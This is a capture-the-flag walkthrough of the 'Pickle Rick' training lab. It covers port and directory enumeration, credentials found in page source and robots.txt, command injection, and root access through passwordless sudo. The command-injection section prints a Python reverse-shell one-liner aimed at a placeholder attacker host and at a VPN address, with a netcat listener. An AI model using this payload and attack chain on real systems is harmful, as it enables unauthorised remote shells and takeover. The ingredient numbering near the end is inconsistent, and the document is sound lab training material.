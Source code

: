 ## Pickle Rick CTF
---

**IP: 10.10.86.171[22,80]**
### Enumeration

#### Nmap:
`nmap -sV -vv -Pn -T5 -p- -oG nmap.txt 10.10.86.171 | tee -a PickleRick.md`
from this scan were able to locate two open ports
```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
#### Gobuster:
`gobuster dir -e -u http://10.10.86.171/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,css,js,py`
from here we identified a series of web pages to further enumerate.
The purpose of the `-x` is to further specify extensions to find. this directory list is extremely useful for this specific task, unlike rockyou, which is for password cracking.
```
gobuster dir -e -u http://10.10.86.171/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,css,js,py
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.86.171/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     py,php,sh,txt,cgi,html,css,js
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2021/02/07 09:59:01 Starting gobuster
===============================================================
http://10.10.86.171/index.html (Status: 200)
http://10.10.86.171/login.php (Status: 200)
http://10.10.86.171/assets (Status: 301)
http://10.10.86.171/portal.php (Status: 302)
http://10.10.86.171/robots.txt (Status: 200)
```

| **Enumeration** | **Results**|
| :--- | :---: |
| Within page source on the homepage:  | Username: R1ckRul3s |
| within robots.txt | Wubbalubbadubdub |
| The above two worked for successful authentication on `login.php` | authenticated to `portal.php`  |

---
## Command Injection

Long story short, we could inject commands but were unable to view files with `cat` we could use `grep . -R` to view everything at once though, and pulled our first ingredient from that.
`Python3 --version` spit back a version number so this indicated we could use a payload for a reverse shell.

#### code provided by pentest monkey
`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

#### Setting parameters
`ip addr` Identify your address, specifcally from `tun0` as your VPN IP.
`nc -lnvp 9999` set up a netcat listener on your machine for the reverse shell.

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.52.142",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

---
### Exploitation

We now had a non-interactive shell on the machine.
```listening on [any] 9999 ...
connect to [10.6.52.142] from (UNKNOWN) [10.10.86.171] 57228
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
from here we saw this user is a sudoer
```
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-86-171.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-86-171.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
 naturally,

 ```
 cd ../../../../
pwd
/
sudo ls -l root
total 8
-rw-r--r-- 1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x 3 root root 4096 Feb 10  2019 snap
sudo cat root/3rd.txt
3rd ingredients: fleeb juice
```

That's the second ingredient

```
cd /home
ls
rick
ubuntu
cd rick
ls -l
total 4
-rwxrwxrwx 1 root root 13 Feb 10  2019 second ingredients
cat *
1 jerry tear
```

That's the final ingredient.
